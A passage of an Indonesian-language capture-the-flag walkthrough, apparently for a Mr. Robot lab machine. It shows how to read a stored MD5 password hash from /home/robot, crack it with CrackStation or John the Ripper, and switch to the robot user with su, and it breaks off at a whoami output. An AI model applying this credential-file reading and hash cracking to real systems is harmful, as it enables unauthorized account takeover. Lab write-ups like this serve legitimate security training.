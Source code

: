 ⚠️ Kita belum bisa baca `key-2-of-3.txt` karena sekarang kita masih user `www-data`.

Tapi kita bisa akses file `password.raw-md5`. Ambil dulu:

```bash
cat /home/robot/password.raw-md5
```

📌 Output:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Itu adalah **hash MD5**.

---

## 🔓 3. Crack Password Hash MD5

Gunakan CrackStation.net atau John The Ripper untuk crack hash:

📌 Pakai [https://crackstation.net](https://crackstation.net) dan masukkan:

```
c3fcd3d76192e4007dfb496cca67e13b
```

🔑 Hasil:

```
abcdefghijklmnopqrstuvwxyz
```

---

## 🔐 4. Login sebagai User `robot`

Kita tahu password-nya, jadi:

```bash
su robot
```

Saat diminta password, ketik:

```
abcdefghijklmnopqrstuvwxyz
```

---

✅ Kamu sekarang jadi user `robot` 🎉

Cek dengan:

```bash
whoami
```

Output:
